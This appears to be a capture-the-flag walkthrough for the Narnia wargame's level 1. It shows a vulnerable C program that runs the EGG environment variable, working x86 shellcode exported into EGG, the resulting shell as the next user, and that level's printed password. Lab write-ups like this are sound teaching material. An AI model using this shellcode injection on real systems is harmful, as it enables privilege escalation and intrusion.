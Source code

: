 For this level, the source code is:
```
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```
Let's break down what this code means.
From this code:

    - int (*ret)(); is a function pointer.
    - The program expects an "EGG" environment variable.
    - If "EGG" exists, it assigns its address to ret and attempts to execute it.
    - This indicates that the program is susceptible to shellcode injection through the "EGG" environment variable.


From this, we likely need to use the environment variable to execute some command. Before injecting the shellcode into the env variable, we need to find the right architecture and which processor the system uses like so:
```
narnia1@gibson:/narnia$ uname -a
Linux gibson 6.2.0-1012-aws #12~22.04.1-Ubuntu SMP Thu Sep  7 14:01:24 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
narnia1@gibson:/narnia$ arch
x86_64
narnia1@gibson:/narnia$ lscpu
Architecture:            x86_64
  CPU op-mode(s):        32-bit, 64-bit
  Address sizes:         46 bits physical, 48 bits virtual
  Byte Order:            Little Endian
CPU(s):                  2
  On-line CPU(s) list:   0,1
Vendor ID:               GenuineIntel
  Model name:            Intel(R) Xeon(R) Platinum 8175M CPU @ 2.50GHz
```

Now, we will be injecting a shellcode exploit in the EGG variable like so:
```
narnia1@gibson:/narnia$ export EGG=$(echo -e "\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81")
narnia1@gibson:/narnia$ ./narnia1
Trying to execute EGG!
bash-5.1$ whoami
narnia2
bash-5.1$ cat /etc/narnia_pass/narnia2
Zzb6MIyceT
```

Overall, trying to find the right shellcode took an enormously long amount of time. First of all, I looked into exploitdb for shellcodes that could be injected which none of them worked. Next, I looked into shellstorm  which finally came up with a shellcode which worked.
The shellcode which worked: https://shell-storm.org/shellcode/files/shellcode-607.html